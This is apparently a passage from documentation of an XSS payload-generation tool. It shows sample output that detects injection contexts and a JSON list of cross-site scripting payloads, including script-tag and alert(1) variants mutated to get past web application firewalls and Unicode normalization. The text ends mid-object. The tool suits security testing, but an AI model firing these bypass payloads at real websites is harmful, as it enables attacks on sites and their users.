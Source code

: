 ```bash
     🎯 useEffect: React useEffect hook injection
     🎯 shadowRoot: Shadow DOM injection
   🔀 Generated 8 payload mutations for bypass attempts
   ⚠️  1 contexts have no specific payloads
   💡 Consider adding custom payloads for these contexts
   ⚡ Detected eval contexts - prioritize code injection payloads
   ⚛️  React hooks detected - test component lifecycle injection
   🌑 Shadow DOM detected - test encapsulation bypass
```

#### JSON Output:
```json
{
  "metadata": {
    "total_payloads": 15,
    "contexts": 3,
    "coverage_score": 85.2,
    "mutation_strategies": ["waf_bypass", "unicode_bypass"]
  },
  "detected_contexts": [
    {
      "context": "eval_contexts",
      "priority": 10,
      "matches": 1,
      "description": "Dynamic code execution"
    },
    {
      "context": "useEffect", 
      "priority": 9,
      "matches": 2,
      "description": "React useEffect hook injection"
    }
  ],
  "payloads": [
    {
      "payload": "\"><script>alert(1)</script>",
      "context": "eval_contexts",
      "priority": 10,
      "description": "Dynamic code execution",
      "original": true
    },
    {
      "payload": "\"><scr\\u0000ipt>window[\"ale\"+\"rt\"](1)</scr\\u0000ipt>",
      "context": "eval_contexts",
      "priority": 9,
      "description": "Dynamic code execution (Advanced WAF bypass techniques)",
      "original": false,
      "mutation_strategy": "waf_bypass"
    },
    {
      "payload": "\\u202e<script>alert(1)</script>\\u202d",
      "context": "eval_contexts",
      "priority": 9,
      "description": "Dynamic code execution (Unicode normalization bypass)",
      "original": false,
      "mutation_strategy": "unicode_bypass"
    }
  ],
  "recommendations": [
    "Focus on 3 critical contexts detected",
    "Test eval contexts with code injection payloads",
    "Test React hooks with component lifecycle injection",
    "Test Shadow DOM with encapsulation bypass"
```